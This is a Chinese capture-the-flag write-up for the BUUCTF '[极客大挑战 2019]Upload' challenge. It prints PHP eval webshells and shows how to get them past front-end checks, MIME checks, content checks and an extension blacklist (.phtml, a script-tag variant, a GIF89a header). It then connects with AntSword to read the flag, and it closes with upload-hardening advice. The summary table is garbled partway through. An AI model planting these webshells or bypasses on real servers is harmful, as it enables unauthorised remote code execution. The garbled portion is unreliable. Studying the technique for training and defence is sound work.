

# 极客大挑战 2019 Upload 题解

## 题目信息

- **题目名称：** [极客大挑战 2019]Upload
- **题目类型：** Web 安全 - 文件上传漏洞
- **题目平台：** BUUCTF
- **来源题解：** 
  - [rewaf 的 CSDN 题解](https://blog.csdn.net/weixin_45864041/article/details/108815647)
  - [云水禅心的博客园题解](https://www.cnblogs.com/Yunyiy1/p/18939417)

## 题目概述

这是一道经典的文件上传漏洞题目，综合考察了多种文件上传绕过技术，包括前端验证绕过、文件类型检测绕过、文件内容检测绕过以及黑名单绕过等。

## 解题思路详解

### 第一步：初步测试

首先，我们尝试直接上传一个简单的一句话木马：

```php
<?php @eval($_POST['pwd']); ?>
```

### 第二步：分析验证机制

通过测试，我们发现题目有多层验证：

1. **前端 JavaScript 验证** - 检查文件后缀
2. **后端 MIME 类型检查** - 检查 Content-Type
3. **文件内容检查** - 检查是否包含 `<?` 标签
4. **后缀黑名单** - 禁止 `.php` 等后缀

### 第三步：逐层绕过

#### 1. 绕过前端验证

**问题：** 直接上传 `.php` 文件会被前端拦截。

**方法一：修改 Content-Type**
- 上传文件时抓包
- 将 `Content-Type` 改为 `image/png`

**方法二：修改后缀后改回**
- 将文件后缀改为 `.png` 上传
- 抓包将后缀改回 `.php` 后放包

两种方法效果相同，选择自己习惯的即可。

#### 2. 绕过黑名单

**问题：** 即使绕过了前端，后端仍然禁止 `.php` 后缀。

**分析：** 这是典型的黑名单过滤。

**解决方案：** 使用黑名单之外的后缀，如：
- `.phtml` ⭐ （推荐，最常用）
- `.php3`
- `.php4`
- `.php5`

我们这里选择 `.phtml` 后缀。

#### 3. 绕过文件内容检测

**问题：** 上传后提示文件包含 `<?`，被拦截。

**分析：** 服务器检查文件内容，禁止 PHP 标签。

**解决方案：** 使用 `<script>` 标签替代：

```php
<script language="php">
    @eval($_POST['pwd']);
</script>
```

这种写法虽然使用了 `<script>` 标签，但通过 `language="php"` 属性明确告诉服务器这是 PHP 代码，仍然可以正常执行。

#### 4. 添加文件头（可选）

在某些情况下，还需要添加文件头来绕过文件类型检测。可以添加 GIF 文件头：

```
GIF89a
<script language="php">
    @eval($_POST['pwd']);
</script>
```

不过在本题中，这一步可能不是必需的。

### 第四步：上传与访问

1. 准备好最终的 WebShell 文件，后缀为 `.phtml`
2. 上传文件
3. 上传成功后，题目没有给出文件路径，我们猜测在 `/upload/` 目录下
4. 访问 `/upload/文件名.phtml`，确认文件可以访问

### 第五步：连接 WebShell

使用 WebShell 管理工具连接：

- **工具：** 蚁剑（中国菜刀的现代替代品）
- **连接地址：** `http://目标地址/upload/文件名.phtml`
- **连接密码：** `pwd`

连接成功后，在根目录下找到 `flag` 文件，读取即可得到 flag。

**最终 Flag：**
```
flag{55c2d8ce-a939-4d15-bd71-b1087070ca6d}
```

## 完整解题流程图



## 知识点总结

### 本题涉及的技术点

| 技术 | 说明 | 本题应用 |
|------|------|---------|
| 前端验证绕过 | 抓包修改或禁用 JS | 修改 Content-Type |
| 黑名单绕过 | 使用替代后缀 | `.phtml` |
| 文件内容检测绕过 | 替换 PHP 标签 | `<script language="php">                                                                                                                                                                                                                                                                                                                                                                  </script>

// 图片马
GIF89a
<?php @eval($_POST['cmd']); ?>
```

## 修复建议参考

这道题目也给我们提供了很好的安全加固参考：

### 服务器端

1. **使用白名单** - 只允许指定的文件后缀
2. **验证文件真实性** - 不仅检查后缀，还要检查文件内容
3. **二次渲染图片** - 重新生成图片，破坏 WebShell
4. **分离存储** - 将上传文件放在 Web 根目录外
5. **禁用执行权限** - 上传目录不可执行

### 代码层面

```php
// 白名单验证
$allowed_ext = ['jpg', 'jpeg', 'png', 'gif'];
$ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_ext)) {
    die("非法文件类型");
}

// 随机重命名
$new_filename = uniqid() . '.' . $ext;

// 安全存储
move_uploaded_file($tmp_file, '/safe/path/' . $new_filename);
```

## 相关题目

- [[文件上传漏洞]] - 文件上传漏洞详解
- [[BUUCTF-ACTF2020新生赛-Include-1题解]] - 文件包含漏洞，常与文件上传组合使用
